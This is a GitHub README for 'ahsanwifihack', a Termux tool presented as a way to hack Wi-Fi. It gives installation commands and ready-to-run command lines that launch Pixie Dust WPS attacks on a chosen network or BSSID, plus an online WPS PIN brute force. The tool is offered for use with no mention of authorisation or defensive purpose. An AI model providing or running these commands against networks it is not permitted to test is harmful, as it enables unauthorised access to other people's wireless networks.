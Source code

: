 ## ahsanwifihack
### Hack WIfi Using Termux! (Requires Root)

<p align="center"><img src="https://i.ibb.co/K74g0SC/hulu.jpg"></p>

### Installation :

```bash
$ apt update && apt upgrade
$ pkg install -y root-repo
$ pkg install -y git tsu python wpa-supplicant pixiewps iw
$ git clone https://github.com/MDAhsanullah/ahsanwifihack
$ cd ahsanwifihack
$ chmod +x ahsanwifihack.py
$ sudo python ahsanwifihack.py --help
```

#### Example : `sudo python ahsanwifihack.py -i wlan0 -K`

#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python ahsanwifihack.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python ahsanwifihack.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python ahsanwifihack.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**
